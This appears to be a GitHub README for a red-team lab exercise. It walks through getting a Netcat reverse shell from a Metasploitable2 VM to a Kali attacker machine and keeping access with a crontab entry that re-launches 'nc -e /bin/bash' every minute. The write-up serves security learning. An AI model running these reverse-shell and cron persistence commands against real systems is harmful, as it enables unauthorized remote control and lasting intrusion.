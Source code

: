 ## Lab07 – Netcat Reverse Shell & Crontab Persistence
## Description
In this lab, we achieved a reverse shell from Metasploitable2 to Kali Linux using Netcat and then maintained persistent access via crontab. This technique demonstrates a real-world post-exploitation scenario where the attacker regains access even after system reboots.

## Target System
OS: Metasploitable2

IP: 192.168.56.101

Attacker (Kali) IP: 192.168.56.102

## Exploitation Steps

🔹 Step 1: Start a Netcat listener on the attacker (Kali) machine
```bash
nc -lvnp 4444
```

🔹 Step 2: Execute a reverse shell on the victim (Metasploitable2)
```bash
nc -e /bin/bash 192.168.56.102 4444
```
Note: nohup was not available in the system, so raw Netcat reverse shell was used.

🔹 Step 3: Verify shell access on Kali
Once connected:
```bash
whoami
hostid
ip a
```
Persistence via Crontab
🔹 Step 4: Edit crontab on Metasploitable2
```bash
crontab -e
```
🔹 Step 5: Add the following line to create a persistent reverse shell every minute:
```bash
* * * * * nc -e /bin/bash 192.168.56.102 4444
```
## Screenshots

![](https://github.com/ATTezel/RedTeam-Labs/blob/main/Lab07/Screen%20Shot%202025-06-08%20at%2017.02.43.png)

![](https://github.com/ATTezel/RedTeam-Labs/blob/main/Lab07/Screen%20Shot%202025-06-08%20at%2017.26.30.png)

![](https://github.com/ATTezel/RedTeam-Labs/blob/main/Lab07/Screen%20Shot%202025-06-08%20at%2017.45.13.png)

![](https://github.com/ATTezel/RedTeam-Labs/blob/main/Lab07/Screen%20Shot%202025-06-08%20at%2017.45.54.png)

## What I Learned
How reverse shells work with Netcat (nc -e /bin/bash)

The concept of incoming vs outgoing connections and attacker-listener logic

How to maintain persistence via scheduled tasks (cron jobs)

Basic Linux post-exploitation persistence methods

Importance of avoiding common detection (e.g., disabling nohup makes attackers try fallback methods)

